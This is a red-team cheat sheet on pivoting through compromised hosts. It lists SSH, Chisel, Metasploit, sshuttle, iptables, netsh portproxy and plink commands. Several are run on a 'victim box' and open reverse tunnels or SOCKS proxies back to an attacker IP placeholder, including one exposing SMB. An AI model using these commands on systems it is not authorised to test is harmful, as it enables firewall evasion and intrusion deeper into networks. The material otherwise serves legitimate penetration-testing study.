 # Tunneling      
## Contents    
- [Tunneling](#tunneling)
  * [Contents](#contents)
  * [SSH](#ssh)
    + [Local Tunnels](#local-tunnels)
    + [Reverse Tunnels](#reverse-tunnels)
    + [Dynamic Tunnels](#dynamic-tunnels)
  * [Chisel](#chisel)
    + [Chisel socks Reverse Proxy](#chisel-socks-reverse-proxy)
    + [Chisel socks Forward Proxy](#chisel-socks-forward-proxy)
    + [Chisel Remote Port Forward](#chisel-remote-port-forward)
    + [Chisel Local Port Forward](#chisel-local-port-forward)
  * [Metasploit Tunneling](#metasploit-tunneling)
- [Linux](#linux)
  * [SShuttle](#sshuttle)
  * [IPTables](#iptables)
- [Windows](#windows)
  * [Portproxy](#portproxy)
  * [SSH (Window 10 and newer)](#ssh--window-10-and-newer-)
  * [Plink.exe](#plinkexe)   
   
Expose internal services, usually hidden due to firewall rules or gain further access into a network. 

[Pivot cheat sheet](https://assets.contentstack.io/v3/assets/blt36c2e63521272fdc/blt0f228a4b9a1165e4/5ef3d602395b554cb3523e7b/pivot-cheat-sheet-v1.0.pdf)   
[Pivoting for Red Teamers](https://artkond.com/2017/03/23/pivoting-guide/)   
[Basic Tunneling](https://posts.specterops.io/offensive-security-guide-to-ssh-tunnels-and-proxies-b525cbd4d4c6)  
 
## SSH 
In SSH session: press enter a few times then ~C to append more tunnels to command (open command line mode). 
Config file: /etc/ssh/sshd_config. Need to restart SSH service whenever config changes are made.       

    /usr/sbin/sshd -t    #validate SSH config    
    systemctl status ssh    #view SSH server status 
    systemctl restart ssh   #restart SSH 
    systemctl stop ssh   #stop SSH server 
    systemctl start ssh   #Start SSH   
### Local Tunnels 
Local tunnel from Kali attack box through a pivot to a service on target. Default local ip is 0.0.0.0

    ssh -p <port> user@pivot -L <local ip for specific interface>:<local port on attack box>:<target host>:<target port> 
    
### Reverse Tunnels
Remote tunnel to Kali through a pivot from target (may need to join tunnels depending on config)  

    open up pivot pivot to forward traffic back to local Kali box 
    ssh -R <pivot port>:localhost:<local port> user@<pivot ip> 
    
### Dynamic Tunnels           
Set up dynamic tunnels to scan through them (see scanning section below for more details)     

    ssh -D 9050 user@localhost -p <port on kali used for tunnel> 

    
 ## Chisel 
[Chisel](https://github.com/jpillora/chisel)   
[Pivoting with Chisel Guide](https://ap3x.github.io/posts/pivoting-with-chisel/)  
Good for getting through firewalls, need correct copies of binaries on both target / attack box  
Need to change /etc/proxychains4.conf socks4 to socks5 on attack box 
### Chisel socks Reverse Proxy 
    attack box    $ ./chisel server -p LISTEN_PORT --reverse &  
    target box    $ ./chisel client ATTACKING_IP:LISTEN_PORT R:socks & 
### Chisel socks Forward Proxy 
    target    $ ./chisel server -p LISTEN_PORT --socks5  
    attack    $ ./chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks 
### Chisel Remote Port Forward 
    attack    $ ./chisel server -p LISTEN_PORT --reverse &  
    target    # ./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT & 
### Chisel Local Port Forward 
    target    $ ./chisel server -p LISTEN_PORT 
    attack    $ ./chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT 
 
## Metasploit Tunneling   
Route pivoting:    

    msf (meter) > bg 
    msf > router add 10.10.10.0/24 1   #add route to session 1, then scan or exploit using the session     
    Can then use scanners / commands like: auxiliary/scanner/portscan/tcp, nmap, dn_nmap modules.        
    msf (meter) > run arp_scanner -r 10.10.10.0/24    

 # Linux 
 
 ## SShuttle
  If pivot is a Linux box with python installed you can ssh into: can use [sshuttle](https://github.com/sshuttle/sshuttle) to connect into network. 
  
      apt-get install sshuttle 
      sshuttle -r user@10.10.10.10 --ssh-cmd "ssh -i id_rsa" 10.10.0.0/24 -x [pivot ip]
 
 ## IPTables 
 
     iptables -t nat -A PREROUTING -p tcp --dport 2222 -j DNAT --to-destination 192.168.0.20:22 

 
 # Windows           
     netsh firewall show config 
     netsh advfirewall firewall add rule name="NAME" dir=in action=allow protocol=tcp localport=PORT    
## Portproxy

    netsh interface portproxy add <type> listenport=<port in> connectport=<port out> connectaddress=<destination>  
    <type> can be v4tov4, v4tov6, v6tov4, v6tov6      
    netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8000 connectaddress=10.10.10.100 connectport=80    


## SSH (Window 10 and newer)
     [from target box to expose SMB ]
     ssh -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS 
## Plink.exe
[upload plink.exe](https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html)  

     plink.exe -l user -pw password -R 445:127.0.0.1:445 YOURIPADDRESS   <-note entering in your password on a victim box is a bad idea
     
     [generate ssh keys on kali, convert to putty keys and then upload with plink.exe to target ] 
     sudo apt install putty-tools 
     puttygen KEYFILE -o OUTPUT_KEY.ppk 
     cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N 
     
